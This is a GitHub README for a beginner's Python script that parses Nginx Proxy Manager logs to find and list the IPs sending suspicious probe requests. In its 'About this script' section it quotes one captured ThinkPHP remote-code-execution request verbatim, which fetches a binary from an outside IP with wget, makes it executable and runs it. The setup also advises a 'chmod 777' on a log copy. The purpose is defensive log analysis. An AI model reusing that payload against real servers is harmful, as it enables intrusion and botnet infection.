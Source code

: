 # Update

I have found a way to filter out the IPs that send these requests and I've made a new script that does precisely that. To make it easier for anyone to run this script I've also implemented a simple menu for users to navigate trough with the ability to first parse the logs to find out any requests similar to the ones I've found and after that filter out all of this requests and it builds an list of indidual IPs that sent these requests.

It also creates all the directories it needs to work properly, and the only set up you need to do is the following:

1- A simple git clone command will copy everything you need to run this script, besides Python3 you have to set that up by yourself if your system does not come with python.

2- When you first run this script it asks for an **absolute path** to the default.log file, but **first make a copy of that file onto an other directory**. after that cd into that directory you just copied the file to and run the command `sudo chmod 777 default.log`, then you can run `pwd` and copy that output add an *default.log* to the end of it and give it as the absolute path for the default.log file.

3- **DO NOT TRY TO RUN THIS SCRIPT BEFORE DOING STEP 2!!** If you don't do that, the script will never stop running and you'll probably have to restart your machine and start over. I copied all the files from my NPM server to an usb drive and ran this script on my laptop just to be sure I don't get myself into an infinite loop!

4- You will probably have to run `chmod +x npm_log_parser.py` to make this script executable, so `cd` into the directory your git command created and then run the chmod command, after that you just need to type `./npm_log.parser.py` into the command line and the script will run. It will store a parsed version of the *default.log* file inside a directory called *parsed* and the results of the IP filter script inside a directory called *results*

As long as you keep the known issues in mind the script should always work, I started out with 374 lines of NPM logs, parsed them into 105 single lines, then was able to filter out a grand total of 81 unique public IPs making these requests!

This script should work in any linux distribution, however I only tested it in Pop Os 20.10, but from what I know the commands the script runs to create the folders on first start exist in all Unix based systems, *I think..*

## **Known Issues**
If you chose option 1 in the main menu after parsing the default.log file the program will ask you if you want it to filter out the results right away, this almost works... If I run the script like this I get 78 unique public IPs, if I say `n` and grab the filename it gives me before quitting and restart the script and select option 2 and give it the name I just grabbed it will give me 81 unique IPs, which is my expected output.

# About this script

The idea behind this script comes from finding out a bunch of really strange requests to my Nginx Proxy Manager container that is open to the internet.
The requests in case are almost always identical to this:

`[13/Jan/2021:15:07:48 +0000] 400 - GET http localhost-nginx-proxy-manager "/index.php?s=/index/\x09hink\x07pp/invokefunction&function=call_user_func_array&vars[0]=shell_exec&vars[1][]='wget http://193.239.147.174/bins/MwEIrNsdFa.x86 -O thonkphp ; chmod 777 thonkphp ; ./thonkphp ThinkPHP ; rm -rf thinkphp'" [Client 220.127.239.7] [Length 154] [Gzip -] "Uirusu/2.0" "-"`

The client IP is always different from what I can tell so far and the IP that it tries to wget is almost always different, trying to run that wget command will give you an "Not Authorized" response. **This script is not a solution for this issue** it just goes trough your NPM logs and finds out all the requests similar to this and puts them in a different file, I started out with a log file with 370 requests and, after running this script I got 108 requests that match the one I posted above, keep in mind that these 370 requests come from a timespan of less than 36h. And yes I am aware that NPM does not use PHP so this attempt to inject an PHP script most likely never runs ence the 400 (bad request) response from NPM, *however the authors of this could move from trying to inject PHP payloads to injecting something else that could work!*

This script reads trough your Nginx Proxy Manager logs, specially the **default.log** file stored inside your npm directory, right now you need an copy of the logs directory inside the root of this script's folder with the name of *logs*, you also need to create a directory called **parsed** so that the script can write a file with all of the requests that it looks for. It also asks for your Public IP in order to filter out your own requests to your npm server.

After running the script it will tell you how many results it got and it will also create a file that stores all of the requests it finds inside the **parsed** directory inside a file called **parsed-default.log**

Right now this scripts only does this, however I'm going to keep developing this script until it is able to extract a list of IPs from the *parsed-default.log*, besides doing this, the script will also be able to tell if the same IP tries to make this request more than once, the point of this is to see if these requests come from all over the world or just from countries known to have botnets like this running, like Iran, China and so on. So far I can say that this is not the case, because I've already found IPs from Italy and the UK that seem residential IPs but further investigation is required to reach an conclusion.

For anyone thinking that bulk blocking the IP ranges that this script find keep in mind that these IPs could also be comming from countries in the world that usually are known for not having these kinds of requests and you could possibly block people that you actually want to access your services without even knowing.

And finally a disclaimer, I am by no means a Python expert, just started to learn it less than a month ago, so it's probably going to take a while before I'm able to filter out the requests into a list of IP's. If you are willing to help me improve this script onto something that could help the NPM developers develop an fix for this feel free to contact me.
